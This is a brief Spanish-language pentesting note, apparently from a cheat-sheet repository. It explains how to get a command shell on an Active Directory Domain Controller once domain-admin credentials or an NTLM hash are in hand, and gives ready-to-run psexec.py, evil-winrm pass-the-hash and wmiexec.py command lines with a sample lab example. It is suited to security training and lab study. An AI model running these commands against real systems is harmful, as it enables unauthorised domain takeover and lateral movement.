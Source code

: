 # Requisitos
Para ganar acceso al `Domain Controller` debemos disponer de credenciales válidas de un `Administrador del dominio`.

# Realizar Autenticación
Una forma de hacerlo es mediante `psexec`, podemos saber si podemos autenticarnos si el crackmapexec nos da un `Pwn3d!` para ese equipo.
```
psexec.py <dominio>/<usuario>:<contraseña>@<ip_DC> cmd.exe
```
Ejemplo:
```
psexec.py wizzz.local/Administrador:Passw0rd@192.168.45.130 cmd.exe
```
También podemos ganar acceso si hemos conseguido su `hash` mediante `evil-winrm`
```
evil-winrm -i <ip-DC> -u '<Administrator>' -H '<hash>'
```
Se puede hacer también con otras herramientas como `wmiexec`
```
wmiexec.py <dominio>/<usuario>@<ip> -hashes <hash_ntds>
```

